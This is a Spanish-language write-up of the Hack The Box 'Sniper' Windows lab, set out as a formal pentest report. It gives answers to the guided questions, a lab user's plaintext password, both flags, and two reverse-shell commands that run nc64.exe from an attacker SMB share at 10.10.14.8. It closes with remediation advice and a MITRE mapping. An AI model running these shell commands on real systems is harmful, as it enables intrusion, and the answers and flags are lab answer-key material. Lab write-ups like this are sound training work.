# Informe Técnico de Seguridad Ofensiva: Sniper


**Evaluación de Seguridad Ofensiva y Penetration Testing** realizada sobre el entorno de laboratorio **Sniper** de **Hack The Box**, siguiendo los estándares de ejecución metodológica **OffSec PEN-200 (OSCP)** y **PTES (Penetration Testing Execution Standard)**.

---

## 📑 1. Resumen Ejecutivo (Executive Summary)

* **Objetivo de la Evaluación:** Identificar, documentar y explotar debilidades de seguridad en el host objetivo para evaluar el impacto sobre la confidencialidad, integridad y disponibilidad del sistema.
* **Calificación de Riesgo:** `CRÍTICO` (Acceso no autenticado que deriva en compromiso completo de la máquina y obtención de máximos privilegios administrativos).
* **Vector de Acceso Inicial:** Explotación de servicio de red
* **Vector de Elevación de Privilegios:** Escalada local de privilegios
* **Estado Final:** Compromiso total del objetivo (`User Proof` y `Root/System Proof` obtenidas exitosamente).

### Ficha Técnica de la Evaluación

| Parámetro | Detalle Técnico |
| :--- | :--- |
| **Host Objetivo** | Sniper |
| **Plataforma** | Hack The Box |
| **Sistema Operativo** | Windows |
| **Nivel de Dificultad** | Medium |
| **CVE(s) Involucrados** | N/A |
| **Vector de Entrada** | Explotación de servicio de red |
| **Mecanismo de Escalada** | Escalada local de privilegios |
| **Consultor / Auditor** | Pedro Araiz (`araizcorp`) |

---

## 🎯 2. Diagrama del Flujo de Compromiso (Attack Path)

```
[ Fase 1: Reconocimiento ]
         │
         ▼
[ Fase 2: Enumeración & Identificación de Vectores ]
         │─── Descubrimiento de servicios y análisis de superficie de ataque
         └─── Verificación de configuraciones erróneas y CVEs conocidos
         │
         ▼
[ Fase 3: Explotación Inicial (Foothold) ]
         │─── Ejecución del vector: Explotación de servicio de red
         └─── Establecimiento de Reverse Shell / Acceso de usuario
         │
         ▼
[ Fase 4: Escalada de Privilegios Local ]
         │─── Auditoría interna: Escalada local de privilegios
         └─── Elevación a privilegios de superusuario (root / SYSTEM)
         │
         ▼
[ Fase 5: Evidencia & Banderas ]
         └─── Captura de User Flag y Root Flag
```

---

## 🔬 3. Procedimiento Técnico y Evidencias Paso a Paso

**How many open TCP ports under 1000 are listening on Sniper?**

R:  4



**What is the GET parameter on the website that is vulnerable to local file inclusion (LFI)?**

R: lang







What is the full path on Sniper to the file that holds session information about the session with id 923nktm0vmmi12qrptls332t5o?

R: C:\windows\temp\sess_923nktm0vmmi12qrptls332t5o











```jsx
printf 'cmd /c "\\10.10.14.8\share\nc64.exe -e cmd.exe 10.10.14.8 443"' \
| iconv -f UTF-8 -t UTF-16LE \
| base64 -w0
```



**Are "$" characters allowed in usernames?**

R:  no



**What directory on the webserver is the current working directory?**

R: C:\inetpub\wwwroot\blog



**What is the chris user's password on Sniper?**

R: 36mEAhz/B8xQ~2VM



```jsx
Credenciales
```

```jsx
$User = 'Sniper\Chris'
$Pass = '36mEAhz/B8xQ~2VM'
$Sec  = ConvertTo-SecureString $Pass -AsPlainText -Force
$Cred = [pscredential]::new($User, $Sec)
```

```jsx
Ejecutar un comando como ese usuario (sin UI)
```

```jsx
Start-Process -FilePath cmd.exe -ArgumentList '/c whoami' -Credential $Cred -NoNewWindow -Wait

Invoke-Command -ScriptBlock { \\10.10.14.8\share\nc64.exe -e cmd 10.10.14.8 9001 } -Credential $cred -Computer localhost
```

Submit the flag located on the chris user's desktop.

R:  c2d3083534c336df8467dd0502d4db46









**Into what directory does the CEO want Chris to deliver the updated documentation?**

R: C:\Docs



**What is the file extension for the expected documentation?**

R:chm



**What user opens `.chm` files saved into `C:\Docs\`?**

R: administrator



**Submit the flag located on the administrator user's desktop.**

R: 4f5f23a81880d4bbba2bd57c53eb8423







---

## 🛡️ 4. Plan de Remediación y Recomendaciones de Hardening

### Acciones Tácticas Inmediatas
1. **Aplicación de Parches y Actualización:** Actualizar todos los servicios obsoletos y aplicar los parches correspondientes a las vulnerabilidades documentadas (N/A).
2. **Revisión de Permisos Críticos:** Eliminar permisos SUID/sudo innecesarios y auditar listas de control de acceso (ACLs) en directorios y archivos sensibles.
3. **Cierre de Superficie de Exposición:** Configurar firewalls a nivel de host para denegar puertos de administración o de depuración que no deban estar expuestos públicamente.

### Acciones Estratégicas y de Arquitectura
1. **Principio de Mínimo Privilegio (PoLP):** Configurar servicios y aplicaciones para que se ejecuten bajo cuentas de servicio con privilegios limitados sin acceso a shells interactivas.
2. **Segmentación de Red:** Aislar componentes críticos y servidores de aplicaciones en VLANs dedicadas con inspección de tráfico Este-Oeste.
3. **Monitorización Continua y EDR:** Implementar reglas de detección basadas en comportamiento para identificar ejecuciones anómalas de comandos, spawning de shells y tráfico de red no autorizado.

---

## 📊 5. Mapeo con Matriz MITRE ATT&CK

| Táctica | ID de Técnica | Nombre de Técnica | Aplicación en el Ejercicio |
| :--- | :--- | :--- | :--- |
| **Reconnaissance** | `T1595.002` | Vulnerability Scanning | Detección automatizada y manual de servicios mediante escaneo de puertos |
| **Initial Access** | `T1190` | Exploit Public-Facing Application | Explotación de vulnerabilidad en servicio de red expuesto (Explotación de servicio de red) |
| **Execution** | `T1059` | Command and Scripting Interpreter | Spawning de reverse shell interactiva para control del endpoint |
| **Privilege Escalation** | `T1068 / T1548` | Abuse Elevation Mechanism / Exploitation | Elevación de privilegios hacia superusuario (Escalada local de privilegios) |

---

© 2026 **araizcorp** — Documentación técnica desarrollada para preparación y consultoría de certificaciones **OffSec** (OSCP, OSEP, OSWE).
